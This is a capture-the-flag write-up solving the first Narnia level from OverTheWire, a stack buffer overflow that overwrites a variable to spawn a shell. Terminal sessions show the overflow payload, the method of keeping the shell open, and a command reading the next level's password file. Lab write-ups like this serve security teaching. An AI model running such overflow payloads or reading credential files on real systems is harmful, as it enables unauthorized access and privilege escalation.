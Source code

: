 The above C code is the source code for the first challenge in the Narnia series of challenges offered by Overthewire.org, these challenges have been designed to have basic vulnerabilities. The goal of this challenge is to get the val varible to equal “0xdeadbeef” and if so the binary will give me a shell. The binary accepts one string input from the user and puts the string into a buffer of 20 bytes, straight away this looks like a buffer overflow vulnerability with the goal of overflowing the buffer and then overwriting the value of the varible called “val” which currently is “0x41414141” with the value of “0xdeadbeef”.

So the next step I sent a string of A’s with 4 C’s to test the vulnerability, the buffer is defined as 20 bytes in size which means if there is actually a vulnerability in the code when the binary takes the user input and places it directly into the buffer and the user input is greater then 20 bytes there should be an overflow, which is why I include 4 C’s which should overwrite the val varible.

```
narnia0@melinda:/narnia$ ./narnia0
Correct val’s value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAACCCC
buf: AAAAAAAAAAAAAAAAAAAACCCC
val: 0x43434343
WAY OFF!!!!
```

As I expected there was an overflow when I entered a string greater then 20 bytes long. Next I want to get code execution which will allow me to view the password for the next level. Since the binary should give me a shell when the val varible equals “0xdeadbeef” which means if I replace the 4 C’s to be “0xdeadbeef” I should be given a shell and then simply just be able to cat out the password file. So below I used python to create my string with the “0xdeadbeef” overwrite included which is piped into the narnia0 binary.

```
narnia0@melinda:~$ python -c'print "A"*20 + "\xef\xbe\xad\xde"' | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAï¾­Þ
val: 0xdeadbeef
```
DI successfully overwrite the val varible with “0xdeadbeef” but I was not given a shell, this is because the shell closes straight away.

```
narnia0@melinda:~$ python -c'print "A"*20 + "\xef\xbe\xad\xde"';id | /narnia/narnia0
AAAAAAAAAAAAAAAAAAAAï¾­Þ
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: uid=14000(narnia0)
val: 0x41414141
WAY OFF!!!!
```

I added an “id” command to be executed when the shell is be given, I can see the results of the command to be “uid=14000(narnia0)” but the results was not what I expected, again the command was executed after the shell from the binary had closed. I need to work out a way to keep the shell open. After running through a series of different commands I found the “cat” command kept the shell session open.

```
narnia0@melinda:/narnia$ (python -c'print "A"*20 + "\xef\xbe\xad\xde"'; cat) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
whoami
narnia1
id
uid=14000(narnia0) gid=14000(narnia0) euid=14001(narnia1) groups=14001(narnia1),14000(narnia0)
cat /etc/narnia_pass/narnia1
```
